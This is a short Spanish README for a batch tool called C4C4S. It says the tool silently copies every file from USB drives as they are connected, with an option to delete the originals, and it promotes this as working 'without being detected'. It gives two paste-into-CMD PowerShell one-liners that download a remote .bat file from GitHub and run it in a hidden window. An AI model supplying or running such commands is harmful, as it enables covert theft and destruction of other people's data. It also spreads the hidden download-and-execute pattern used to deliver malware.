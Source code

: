 # C4C4S.bat / C4C4S.bat
<b>Esta es una herramienta para copiar todos los archivos de una memoria sin ser detectado.</b><br><br>
Escucha cuando se conecta un dispositivo de almacenamiento, despues copia los archivos del dispositivo conectado y tienes la opción de borrar los archivos despues de ser copiados.

<h2>Para copiar archivos de USB borrando los archivos de la memoria al finalizar, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4s.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h2>Para copiar archivos de USB sin modificar o borrar los archivos origen, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h3>Para ver los archivos copiados...</h3>
<ul>
  <li>Abre una ventana del CMD.</li>
  <li>Ubicate en la carpeta: <b>C:\Users\%USERNAME%\Desktop\NCopy</b></li>
  <li>Abre la carpeta con: <b>start .</b></li>
</ul>
